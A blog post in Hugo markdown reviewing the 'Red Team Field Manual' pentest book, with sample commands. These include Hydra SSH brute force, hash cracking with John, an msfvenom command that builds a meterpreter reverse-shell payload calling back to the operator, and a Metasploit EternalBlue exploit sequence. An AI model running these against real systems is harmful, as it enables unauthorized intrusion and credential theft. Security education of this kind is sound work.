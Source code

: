 ```yaml
---
title: "📚🔍 Red Team Field Manual: Your Infosec Companion 🕵️‍♂️💼"
author: "c4r4nch0"
date: "2023-07-10"
draft: false
searchHidden: false
tags: ["book", "machete", "infosec"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://example.com/images/sparkling_souls.jpg"
#     alt: "Sparkling Souls"
#     caption: "Surround Yourself with Sparkling Souls"
#     relative: true # To use relative path for cover image, used in hugo Page-bundles    

---
```

![Choose the correct Book Pill: Red or Blue](/morfeo_rbftm.jpg)

Hey there, fellow InfoSEC aficionados! Today, we're diving into the world of the "Red Team Field Manual," an indispensable gem in the realm of cybersecurity and penetration testing. If you're serious about mastering the art of red teaming or just want to level up your infosec skills, this little book packs a mighty punch.

**Why "Red Team Field Manual"?**

Picture this: You're in the midst of a complex penetration test, and you need a quick reference for that one obscure command or technique. You could scour the depths of the internet, but time is of the essence, and you need a reliable source at your fingertips. Enter the "Red Team Field Manual" (RTFM for short). This compact manual is designed for precisely those moments.

**The Magic of RTFM**

RTFM is a concise, no-nonsense guide that covers a wide array of topics relevant to red teaming, penetration testing, and general infosec wizardry. It's like having a seasoned mentor in your pocket, ready to assist you in your most critical moments.

[photo of the Red Team Field Manual book]

**Commands and Techniques You'll Love**

Here are some commands and techniques you'll find in RTFM that I absolutely love, ready to copy and use in your infosec adventures:

1. **Enumeration Magic**:
   
   Discovering valuable information about your target is crucial. RTFM provides a variety of enumeration commands to help you get started:

   - SNMP Enumeration:
     ```
     snmpwalk -c public -v1 target_ip
     ```

   - SMB Enumeration (using Enum4linux):
     ```
     enum4linux -a target_ip
     ```

2. **Password Cracking**:

   When you need to crack passwords, RTFM offers tools and techniques to get the job done:

   - Using John the Ripper for cracking password hashes:
     ```
     john --wordlist=wordlist.txt --format=NT hash.txt
     ```

   - Employing Hydra for brute-force attacks:
     ```
     hydra -l username -P password_list.txt ssh://target_ip
     ```

3. **Exploitation Essentials**:

   Master common exploits and payloads with these handy commands:

   - Metasploit (launching a reverse shell payload):
     ```
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f exe > payload.exe
     ```

   - Exploiting a known vulnerability (example with EternalBlue):
     ```
     msfconsole
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS target_ip
     exploit
     ```

4. **Cheat Sheets Galore**:

   RTFM is packed with cheat sheets for various technologies and protocols. Here's an example for quick reference:

   - PowerShell Cheat Sheet (for basic commands):
     ```
     Get-Process
     Get-Service
     Get-NetAdapter
     ```

5. **Networking Ninja**:

   For all your networking needs, RTFM's networking section has got you covered:

   - Configuring a network interface (example with ifconfig):
     ```
     ifconfig eth0 up
     ifconfig eth0 192.168.1.2 netmask 255.255.255.0
     ```

   - Setting up an SSH tunnel:
     ```
     ssh -L local_port:target_ip:remote_port user@ssh_server
     ```

6. **Forensics and Incident Response**:

   When you're knee-deep in an incident response scenario, these commands come in handy:

   - Collecting volatile data using Volatility (example for memory analysis):
     ```
     volatility -f memory_dump.raw imageinfo
     volatility -f memory_dump.raw pslist
     ```

   - Checking for open ports and listening processes (example with netstat):
     ```
     netstat -tuln
     ```

Always use these commands responsibly in your infosec endeavors. 

Remember, with great power comes great responsibility! 🕵️‍♂️🔍🐍

**Real-World Examples**

RTFM isn't just a list of commands; it provides context and real-world examples. It shows you how to apply these commands in actual scenarios. It's like a seasoned colleague sharing their experiences with you.

**Conclusion**

So, should you get the "Red Team Field Manual"? Absolutely. It's a pocket-sized powerhouse of infosec knowledge that's incredibly handy for both beginners and seasoned professionals. While it won't replace in-depth understanding, it's an essential tool for quick reference and practical guidance.

[photo of me using RTFM in a real-world scenario]

Whether you're deep in a penetration test, studying for a certification, or just curious about infosec, this manual will become your trusty sidekick. It's like having a cheat code book for the world of hacking (ethically, of course!).

So, grab your copy of the "Red Team Field Manual," and let's embark on a journey filled with infosec adventures, one command at a time. 

Happy hacking, my friends! 🕵️‍♂️📘🔒